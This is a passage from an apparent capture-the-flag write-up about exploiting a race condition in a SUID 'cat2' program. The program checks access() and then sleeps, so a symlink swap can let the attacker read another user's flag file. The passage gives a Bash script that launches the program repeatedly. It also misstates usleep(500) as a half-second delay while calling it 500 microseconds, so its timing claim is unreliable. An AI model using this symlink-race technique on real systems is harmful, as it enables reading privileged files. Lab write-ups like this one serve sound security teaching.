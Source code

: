 ```c
    
    return 0;
}

int check_security_contex(char *file_name) {

    int context_result;

    context_result = access(file_name, R_OK);
    usleep(500);

    return context_result;
}
```

#### cat2.c

The C code for `cat2` (as given above) represents the custom version of the `cat` command with added security features. It checks for the user's security context using the `check_security_contex` function. However, the presence of the `usleep(500)` function introduces a 0.5-second delay, making it vulnerable to race condition attacks.

### Vulnerability Analysis

The race condition is created due to the half-second delay (500 microseconds) present in the `check_security_contex` function. An attacker can use this window of time to swap out the file being checked for a symbolic link to another file. Because `cat2` operates with elevated privileges (due to SUID), if the race condition is successfully exploited, it could lead to the unauthorized reading of files owned by the `run` user, such as the `flag` file.

### Exploit

To exploit this vulnerability, two Bash scripts were crafted. 

#### `execute_program.sh`

This script, when run, will attempt to execute the `cat2` program ten times in rapid succession.

```bash
#!/bin/bash
max_attempts=10
delay_between_attempts=0

attempt=1
while [ "$attempt" -le "$max_attempts" ]; do
    program_to_execute="/home/run/cat2 /home/race/asdf"
    $program_to_execute &
    ((attempt++))
done

echo "Script completed after $max_attempts attempts."
```
